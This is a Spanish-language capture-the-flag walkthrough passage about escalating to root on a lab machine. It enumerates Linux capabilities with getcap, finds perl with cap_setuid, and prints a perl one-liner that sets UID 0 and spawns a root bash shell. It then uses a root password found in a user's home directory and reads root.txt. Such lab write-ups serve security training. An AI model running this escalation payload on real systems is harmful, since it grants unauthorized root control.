 16.1 Búsqueda de Vectores de Escalada Adicionales (Capacidades)

 De aqui sacamos los binarios.
 
<img width="1229" height="498" alt="de esta pagina saco la busqueda de binarios" src="https://github.com/user-attachments/assets/708138e1-126a-46e2-b8d6-3702257b9560" />


Verificado si el usuario hatter tiene alguna Capacidad de Linux (Capabilities) configurada, un método moderno para elevar privilegios sin SUID. Utilizamos el comando getcap:

<img width="545" height="129" alt="se podira usar perl para obtener el shell" src="https://github.com/user-attachments/assets/1dace506-bd90-4a61-ba6d-feae95a01e49" />

````
Bash
$ getcap -r / 2>/dev/null
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
````

El binario perl tiene la capacidad cap_setuid+ep. Esto permite a perl cambiar su ID de usuario efectivo a cualquier ID, incluido root (UID 0), lo que ofrece otra ruta para obtener el shell de root.

🛠️ Explotación de Capabilities (Perl)

<img width="929" height="214" alt="badnera dentro root txt" src="https://github.com/user-attachments/assets/4c375ae7-51d2-4176-a3f7-b5017147491c" />


El payload para explotar esta capacidad de perl y obtener un shell de root es:

````
Bash
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
````

16.2 El Camino Directo: La Clave de Root en password.txt 🔑

Aunque la escalada con Capabilities era posible, el CTF a menudo deja la clave final en el directorio del último usuario, tal como encontramos:

Archivo Encontrado: En /home/hatter, encontramos el archivo password.txt.

Contraseña Revelada: El archivo contenía la contraseña del usuario root.

16.3 Conversión a Root (su) 🏆

Utilizamos el comando su (Switch User) para cambiar al usuario root, proporcionando la contraseña que encontramos en password.txt:

````
Bash
# Cambiamos al usuario root
$ su root
Password: <PASSWORD_DE_password.txt>
# whoami
root
````

Tras la autenticación exitosa, obtenemos un shell como root.

16.4 Captura de la Bandera Root (root.txt) 🎉

Finalmente, navegamos al directorio /root y leemos el archivo final para completar el desafío.

````
Bash
cat /root/root.txt
````
